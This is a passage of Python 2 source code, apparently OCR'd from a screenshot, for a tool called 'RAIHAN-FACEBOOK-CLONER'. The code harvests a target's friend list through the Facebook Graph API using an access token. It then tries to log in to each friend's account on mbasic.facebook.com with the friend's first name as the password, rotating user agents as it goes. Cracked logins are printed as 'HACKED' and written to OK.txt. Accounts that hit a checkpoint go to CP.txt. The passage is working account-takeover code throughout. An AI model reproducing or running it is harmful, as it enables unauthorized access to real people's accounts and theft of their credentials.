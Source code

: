         idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     RAIHAN-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')